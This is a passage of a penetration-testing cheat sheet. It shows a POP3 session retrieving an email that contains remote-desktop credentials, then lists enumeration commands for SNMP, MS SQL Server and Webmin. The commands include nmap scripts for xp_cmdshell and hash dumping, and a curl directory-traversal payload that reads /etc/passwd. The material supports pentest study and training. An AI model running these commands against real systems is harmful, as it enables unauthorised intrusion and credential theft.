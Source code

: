          list
         
         +OK 2 1807
         1 786
         2 1021
      
         retr 1
         
         +OK Message follows
         From: jamesbrown@motown.com
         Dear Billy Dean,

         Here is your login for remote desktop ... try not to forget it this time!
         username: billydean
         password: PA$$W0RD!Z


-   SNMP Enumeration -Simple Network Management Protocol

    -   Fix SNMP output values so they are human readable  
        `apt-get install snmp-mibs-downloader download-mibs  `
        `echo "" > /etc/snmp/snmp.conf`

    -   SNMP Enumeration Commands

        -   `snmpcheck -t $ip -c public`

        -   `snmpwalk -c public -v1 $ip 1|`

        -   `grep hrSWRunName|cut -d\* \* -f`

        -   `snmpenum -t $ip`

        -   `onesixtyone -c names -i hosts`

    -   SNMPv3 Enumeration  
        `nmap -sV -p 161 --script=snmp-info $ip/24`

    -   Automate the username enumeration process for SNMPv3:  
        `apt-get install snmp snmp-mibs-downloader  `
        `wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb`

    -   SNMP Default Credentials  
        /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt


-   MS SQL Server Enumeration ( xp_cmdshell to execute commands ) 

    -   Nmap Information Gathering
        
        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`
        
-   Webmin and miniserv/0.01 Enumeration - Port 10000

      Test for LFI & file disclosure vulnerability by grabbing /etc/passwd
        
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`
        